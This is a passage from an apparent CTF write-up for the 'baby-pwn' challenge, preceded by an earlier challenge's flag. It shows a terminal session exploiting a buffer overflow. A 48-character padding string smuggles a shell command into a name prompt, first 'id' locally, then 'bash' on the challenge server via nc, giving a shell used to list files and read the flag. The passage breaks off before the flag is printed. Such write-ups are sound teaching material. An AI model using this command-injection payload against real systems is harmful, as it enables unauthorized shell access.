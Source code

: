 **Flag:** CTF{1f94c04a1e6037ba4004dc8eaf2d28ff35d7d6568d17495639cded566a9d4d26}

## baby-pwn {#baby-pwn}
{% highlight bash %}
Pwn all the things

Flag format: CTF{sha256}
{% endhighlight %}

This challenge was pretty straightforward. Here's how I solved it:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-tms$ file buf 
buf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=53a810336382fbaef696e18219e7a92c47aad215, not stripped
yakuhito@furry-catstation:~/ctf/unr21-tms$ chmod +x buf 
yakuhito@furry-catstation:~/ctf/unr21-tms$ ./buf 
What is your name?
yaku
Goodbye yaku!
Try Harder!!
yakuhito@furry-catstation:~/ctf/unr21-tms$ ./buf 
What is your name?
yakuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu
Goodbye yakuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu!
sh: 1: uuuuuuuuuuuuuuuuuuuuuuuuuuuu: not found
yakuhito@furry-catstation:~/ctf/unr21-tms$ python -c "print(len('yakuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu') - len('uuuuuuuuuuuuuuuuuuuuuuuuuuuu'))"
48
yakuhito@furry-catstation:~/ctf/unr21-tms$ python -c 'print(48 * "A" + "id")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid
yakuhito@furry-catstation:~/ctf/unr21-tms$ ./buf 
What is your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid
Goodbye AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid!
uid=1000(yakuhito) gid=1000(yakuhito) groups=1000(yakuhito),4(adm),5(tty),20(dialout),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),140(docker)
yakuhito@furry-catstation:~/ctf/unr21-tms$ nc 34.107.123.245 31162
What is your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbash
Goodbye AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbash!
id
uid=1000(ctf) gid=3000 groups=3000,2000
ls
buf
buf.c
flag
ls -l
total 20
-rwxr-xr-x 1 root root 8664 May 11 09:33 buf
-r-------- 1 root root  385 May 10 11:57 buf.c
-rw-rw-r-- 1 root root   69 May 10 11:57 flag
cat flag
{% endhighlight %}

